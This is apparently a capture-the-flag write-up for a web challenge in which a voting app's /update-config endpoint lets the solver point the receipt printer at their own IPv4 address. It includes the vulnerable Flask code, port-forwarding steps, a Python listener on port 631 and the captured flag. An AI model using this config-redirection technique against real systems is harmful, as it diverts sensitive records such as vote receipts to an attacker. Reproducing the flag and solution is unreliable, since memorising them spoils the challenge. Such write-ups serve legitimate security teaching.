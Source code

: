 # Where'd my receipt go? - web

## Challenge

In order to create a paper trail to verify the legitimacy of the digital records, a receipt is printed for every vote made. The printer can only be configured by voting officials at the polling location. Is it possible to change the printer so the vote receipts don't go where they should?

## Solve

Viewing the source code, there are `/get-config` and `/update-config` API endpoints where the printer's current configuration can be viewed / modified:

**`/get-config`:**

<img width="790" height="322" alt="getconf" src="https://github.com/user-attachments/assets/28f8d5c1-df84-4e76-b01e-45484725c534" />


The printer is currently configured to send receipts to `13.237.99.206`.

**`/update-config`:**
```py
@admin_bp.route("/update-config", methods=["POST"])
@require_polling_key
def update_polling_config():
    """
    Update polling location config. Mainly used for printer configuration.
    """
    try:
        data = request.get_json()
        if not data:
            return jsonify({"error": "No JSON data provided"}), 400

        location_data = request.polling_location
        polling_key = location_data["key"]
        config = data.get("config")

        if config is None:
            return jsonify({"error": "Missing required field: config"}), 400

        db = Database()
        exists, location_data = db.validate_polling_key(polling_key)

        if not exists:
            return jsonify({"error": "Invalid polling key"}), 404

        # CTF Note: The config will not actually be updated. A print job will be sent to your IP instead to simulate the attack scenario. When a citizen votes, a print job will be sent to the configured printer
        # success = db.update_polling_config(polling_key, config)
        # if success:
        #     return jsonify({
        #         "success": True,
        #         "message": "Configuration updated",
        #         "config": config
        #     })
        # else:
        #     return jsonify({"error": "Failed to update configuration"}), 500

        if "printer" in config:
            send_ipp_print_job(config["printer"], 1337)

        return jsonify({
                "success": True,
                "message": "Configuration updated",
                "config": config
            })

    except Exception as e:
        return jsonify({"error": f"Failed to update configuration: {str(e)}"}), 500
```

And `send_ipp_print_job()` constricts the address we can specify for the config to IPv4 (no domain names):

```py
def send_ipp_print_job(ip, citizen_id):
    if not is_ipv4(ip):
        raise Exception("IPv4 address required for printer configuration")

    pdf_path = current_app.config["PRINT_JOB_FLAG_PDF"]
    with open(pdf_path, "rb") as f:
        pdf_data = f.read()
        ....
        ....
```

It also tells us where the flag will be sent to (port `631`):

```py
url = f"http://{ip}:631/printers/votes"
```

So, if we update the configuration to our IP address, the flag will be sent to us! Firstly we need to set up port forwarding so that when our router receives the flag from the remote server it knows to direct it towards our specific device:


- Log on to router at `192.168.0.1`
- Discover private address in VM bash terminal with `ip addr show` 
- Set up port forwarding to private IP, mapping ingress port `631` to local devices `631`

Then we set up a very basic web server to receive the response:

```py
from http.server import HTTPServer, BaseHTTPRequestHandler

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        print(f"Path: {self.path}")
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"OK")

    def do_POST(self):
        length = int(self.headers.get('Content-Length', 0))
        body = self.rfile.read(length)
        print(f"Path: {self.path}")
        print(f"Body: {body.decode(errors='replace')}")
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"OK")

if __name__ == "__main__":
    server = HTTPServer(("", 631), Handler)
    print("Listening on port 631...")
    server.serve_forever()
```

```bash
python3 server.py
```

Then we send our `POST` request to `/update-config` specifying our public IP as the new config address to send receipts to:

<img width="684" height="402" alt="updateconf1" src="https://github.com/user-attachments/assets/9c069879-3957-4395-80ad-790d315b9033" />


Our server catches the request and we get the flag:

`cysea{printer_goes_brrrrr_eaecba2ab2}`
